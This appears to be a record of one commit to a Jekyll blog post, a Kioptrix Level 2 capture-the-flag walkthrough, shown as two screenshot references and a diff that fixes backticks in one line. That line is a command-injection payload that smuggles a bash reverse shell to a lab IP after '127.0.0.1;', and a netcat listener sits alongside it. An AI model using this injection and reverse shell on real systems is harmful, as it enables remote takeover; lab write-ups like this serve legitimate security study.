

Before and after one commit to rkmsh/rkmsh.github.io, a Jekyll site: the page built from _posts/2019-06-21-Kioptrix_Level_2.md, in a window 1280 px wide and 900 px high, scrolled down 3822 px. Shown: the whole window, without its empty margins (0-994 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded.

Commit message:
Updating contents

````diff
--- a/_posts/2019-06-21-Kioptrix_Level_2.md
+++ b/_posts/2019-06-21-Kioptrix_Level_2.md
@@ -123,7 +123,7 @@ root@kali:~#  nc -nlvp 443
 listening on [any] 443 ...
 
 ```
-Now get back to the browser and run this command : `127.0.0.1; bash -i >& /dev/tcp/192.168.1.6/443 0>&1```
+Now get back to the browser and run this command : `127.0.0.1; bash -i >& /dev/tcp/192.168.1.6/443 0>&1`
 Where `192.168.1.6` is the IP of the local machine.
 ```console
 root@kali:~#  nc -nlvp 443
````
